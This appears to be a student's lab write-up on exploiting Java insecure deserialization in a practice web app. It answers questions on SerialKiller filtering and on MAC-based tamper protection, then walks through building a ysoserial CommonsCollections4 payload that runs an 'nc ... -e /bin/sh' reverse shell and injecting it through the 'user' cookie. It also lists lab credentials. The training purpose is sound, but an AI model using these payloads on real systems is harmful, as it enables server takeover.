


# Insecure Serialization

## Answers

Content of /app/secret.txt: `rO0ABrevers`  (also see steps and screenshot below)

1. How could you modify this code snippet using look-ahead object input streams (LAOIS) to fix the vulnerability.

Using SerialKiller library, the validity of the byte code can be checked to a certain degree. (probably not 100% safe.)
```
byte[] d = Base64.getDecoder().decode(b64User);
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(d));
ObjectInputStream saferOis = new SerialKiller(ois, "etc/serialkiller.conf");  // would throw InvalidClassException 
 User user = (User) saferOis.readObject();
```

2. The serialized data contains an object of type User. Does your fix above prevent that someone tampers this object and replaces the value of the attribute username in this object. If yes why? If no, how could you prevent that.
    - It does not prevent changing the actual data. Tampering could be prevented by hashing the serialized class and then encrypt it. The encrypted key would have to added to the serialization string. (or even better a MAC 'message authentication code') Before deserialization, the code would have to check integrity and only when ok continue with the deserialization. . 
3. The application returns an exception when you execute your exploit. Why is the exploit executed anyway?
    - exception occurs after the passed command - the malicious code - is executed. 


**Optional Step 4.4.**



Should be relativly easy to modify the payload. Just decode base64, change the data and base64 encode it again and use the same mechanism to inject the payload as described below. 


## Steps

**1 Analyze insecure/serialization website**

Login to website https://101918be-713f-42fd-8257-e6bb79a40f0d.idocker.vuln.land/logout
with the following credentials: thomas, mypass22


Cookie values: 
- JSESSIONID:"80D9B52D7F671CC3B97B43C985F9A8CC"
- user:"rO0ABXNyAB9uZXQuaXNjaGkuaGwuc2VyaWFsaXphdGlvbi5Vc2VyAAAAAAAAAAECAAJMAAhwYXNzd29yZHQAEkxqYXZhL2xhbmcvU3RyaW5nO0wACHVzZXJuYW1lcQB+AAF4cHB0AAZ0aG9tYXM="
    - seems to be java serialization code (starting with "rO0")


**2 generate  exploit**

Running ysoserial reverse shell
1. get ysoserial from github
```
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
```
2. fix dockerfile according to: https://github.com/frohoff/ysoserial/pull/193
3. run docker and generate paylod into a file dansPayload (did it as root probably not necessary)
```
docker build -t ysoserial .
docker run ysoserial --help
docker run ysoserial CommonsCollections4 'hello'
docker run ysoserial CommonsCollections4 'nc 10.103.0.17 1337 -e /bin/sh' | base64 -w 0 > danPayload
```

Last statement writes the attack payload into a file danPayload. 
Good to know: 
- `base64 -w 0` -> "-w 0" removes automatic line breaks 


**3  exploit**

1. Start nc server 
    - Go to https://946a4eed-e576-478a-a7f2-c1945f5cf49b.idocker.vuln.land/ and log in ("hacker", "9EoH05dJ2Mgq")
    - start nc server: `nc -l -p 1337`  (command executed from /bin folder, probably works from anywhere)
        - server now listens on port 1337 for incomming connections
2. In new browser tab, pass exploit in browser (tried with FF)
    - go to https://946a4eed-e576-478a-a7f2-c1945f5cf49b.idocker.vuln.land/ and log in (cookies are set)
    - in developer tools change cookie with 'user' to value in payload (attention withouth '%')
        - error message appears (which is to be expected) -> see screenshot
3. Reverse shell works: from the nc server started in step 1, I can no control the webserver so the exploit was succesful (despite error message in step 2)
    - Found flag in app/secret.txt:  **rO0ABrevers**  (also see screenshot) 





